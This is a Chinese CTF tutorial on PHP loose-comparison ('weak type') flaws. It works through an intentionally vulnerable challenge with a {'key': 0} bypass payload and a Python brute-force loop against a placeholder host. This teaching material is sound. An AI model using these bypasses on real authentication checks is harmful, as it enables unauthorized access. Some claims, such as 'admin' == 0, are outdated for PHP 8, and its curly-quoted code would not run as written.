




# CTF系列教程：P69：CTF-web 赛事入门基础之弱类型问题 🔓

在本节课中，我们将要学习CTF-Web方向中一个非常经典且基础的安全问题：PHP弱类型问题。我们将从PHP语言的特性讲起，理解其背后的原理，并通过实战题目来掌握如何利用和解决这类问题。

## 概述：什么是弱类型问题？

首先，我们需要知道弱类型问题到底是什么样的问题。本节课主要以PHP语言作为主要的讲解内容，因为PHP语言在Web CTF中占有很大比重，也是新手比较容易上手的方向。

## PHP中的两种比较运算符

在PHP语言中，与Python等语言不同，它在判断两个值是否相等时有两种方式：严格比较（`===`）和松散比较（`==`）。

*   **严格比较 (`===`)**：会同时判断两个值的**类型**和**值**是否完全相同。
*   **松散比较 (`==`)**：是一种不严格的判断，会先尝试进行类型转换，再比较值。

例如，在`if`条件判断中，条件为`true`或`1`都会被认为是“真”而进入分支。这是因为在松散比较时，`1`和`true`被认为是“差不多”的东西，会被比较为相等。

让我们通过代码来演示：

```php
var_dump(1 == true);   // 输出: bool(true)， 相等
var_dump(1 === true);  // 输出: bool(false)，不相等
```

一个是整型(`int`)，一个是布尔型(`bool`)。使用`==`比较时返回相等，而使用`===`比较时返回不相等。

**核心概念**：当使用松散比较时，某些原本类型和值都不相同的东西，可能会因为类型转换而被判断为相等，进而可能引发安全问题。这就是弱类型安全问题。

需要明确的是，松散比较本身并非为制造漏洞而生，它是为了给开发者提供便利而设计的。只是如果使用不当，就可能造成安全风险。

## 松散比较的类型转换规则

在松散比较中，PHP会尝试将操作数转换为相同类型后再进行比较。当一个**字符串**与一个**数字**比较，或者字符串内容涉及数字时，字符串会先被转换成数值，然后再进行比较。

字符串转换为数值的规则如下：
1.  从字符串**起始位置**开始读取。
2.  如果第一个字符是数字，则继续读取直到遇到非数字字符为止，这部分数字字符被转换为整数。
3.  如果第一个字符不是数字，则转换结果为 **0**。

以下是规则示例：
*   `“123admin”` -> 读取`“123”`，遇到`‘a’`停止，结果为`123`。
*   `“admin”` -> 第一个字符`‘a’`不是数字，结果为`0`。
*   `“123a456”` -> 读取`“123”`，遇到`‘a’`停止，结果为`123`。

此外，还有一种特殊情况：如果字符串是**科学计数法**形式（例如 `“0e123”`），它也会被当作数字进行比较。`0e123` 表示 0 乘以 10 的 123 次方，结果仍是 0。

基于以上规则，我们来看一些松散比较的例子：
```php
var_dump(“admin” == 0); // true， “admin”转数字为0
var_dump(“1admin” == 1); // true， “1admin”转数字为1
var_dump(“0e123” == “0e456”); // true， 两者都被当作数字0
```

上一节我们介绍了PHP松散比较的基本规则，本节中我们来看看字符串被当作数值取值时的具体规则。

当一个字符串被当作一个数值来取值时，其结果和类型遵循以下规则：
1.  如果该字符串**没有包含**点(`.`)、科学计数法符号(`e`或`E`)，并且其数值在整型范围内，则被当作`int`处理。
2.  其他情况会被当作`float`处理。
3.  转换时，字符串**开始的部分**决定了它的值。如果以合法的数值开始，则使用该数值，否则其值为`0`。



示例：
```php
var_dump(1 + “10.5”); // float(11.5)
var_dump(1 + “-1.3e3”); // float(-1299) ， -1.3e3 = -1300
var_dump(1 + “admin”); // int(1) ， “admin”转为0
var_dump(1 + “2admin”); // int(3) ， “2admin”转为2
```

## 实战演练：CTF题目解析

理解了理论之后，我们通过一道CTF题目来实战应用。请先阅读以下题目源码：

```php
<?php
$flag = “flag{this_is_a_fake_flag}”;
$key = “a_secret_key_you_dont_know”; // 实际题目中此值未知

if (isset($_POST[‘message’])) {
    $message = json_decode($_POST[‘message’]);
    if ($message->key == $key) {
        echo $flag;
    } else {
        echo “Fail”;
    }
}
?>
```

**题目目标**：我们需要通过POST提交一个名为`message`的JSON参数，使得解码后对象的`key`属性值与服务器未知的`$key`变量**松散相等(`==`)**，从而获取`flag`。

**解题思路分析**：
1.  源码使用`json_decode`处理输入，我们可以构造任意的JSON数据。
2.  比较条件是`$message->key == $key`，这是**松散比较**。
3.  `$key`的值我们不知道，但它是一个字符串。
4.  根据弱类型特性，如果我们让`$message->key`为一个**数字**，那么字符串`$key`在比较时会被转换为数字。
5.  如果`$key`不是以数字开头，它转换后的数字就是**0**。

因此，我们可以构造如下JSON进行尝试：
```
{“key”: 0}
```
将其作为`message`参数提交。如果服务器返回`flag`，说明我们的猜测正确，`$key`确实不是以数字开头。

**题目升级**：如果提交`{“key”: 0}`返回了`Fail`，说明`$key`是以数字开头的字符串（例如`“123secret”`）。这时我们无法直接猜出具体数字，但可以采取**爆破**的方法。

以下是爆破思路的Python脚本示例：
```python
import requests
import json

url = “http://target.com/challenge”
for i in range(1000): # 假设key转换后的数字在0-999之间
    data = {‘message’: json.dumps({‘key’: i})}
    r = requests.post(url, data=data)
    if “flag{“ in r.text:
        print(f”Found key: {i}“)
        print(r.text)
        break
```
通过循环尝试不同的数字，直到找到那个能使条件成立的`i`，即可获得`flag`。

## 松散比较相等性一览表

为了更全面地理解，以下列出了在PHP松散比较(`==`)中，哪些不同类型的值会被判断为相等。表中标色的区域代表比较结果为`true`。





| 操作数类型 | `true` | `false` | `1` | `0` | `-1` | `“1”` | `“0”` | `“-1”` | `null` | `array()` | `“php”` |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| **`true`** | ✅ | | ✅ | | | ✅ | | | | | |
| **`false`** | | ✅ | | ✅ | | | ✅ | | ✅ | ✅ | |
| **`1`** | ✅ | | ✅ | | | ✅ | | | | | |
| **`0`** | | ✅ | | ✅ | | | ✅ | | ✅ | | |
| **`-1`** | | | | | ✅ | | | ✅ | | | |
| **`“1”`** | ✅ | | ✅ | | | ✅ | | | | | |
| **`“0”`** | | ✅ | | ✅ | | | ✅ | | | | |
| **`“-1”`** | | | | | ✅ | | | ✅ | | | |
| **`null`** | | ✅ | | ✅ | | | | | ✅ | ✅ | |
| **`array()`** | | ✅ | | | | | | | ✅ | ✅ | |
| **`“php”`** | | | | ✅ | | | | | | | ✅ |

（此表为示意图，具体相等关系需以实际测试为准。对角线是自身严格相等，其他标色区域展示了松散比较可能带来的“意外”相等情况。）



## 总结

本节课中我们一起学习了CTF-Web中的PHP弱类型问题。我们首先了解了PHP中严格比较(`===`)与松散比较(`==`)的区别，重点掌握了松散比较中字符串与数字比较时的类型转换规则。随后，我们通过分析一道CTF题目，实践了如何利用弱类型特性构造Payload（如使用数字`0`）来绕过判断，并在遇到未知数字时采用爆破的方法。理解这张“松散比较相等性表”有助于你在更复杂的场景下发现和利用弱类型漏洞。记住，核心思路是：**利用类型转换，让不同的值在比较时变得“相等”**。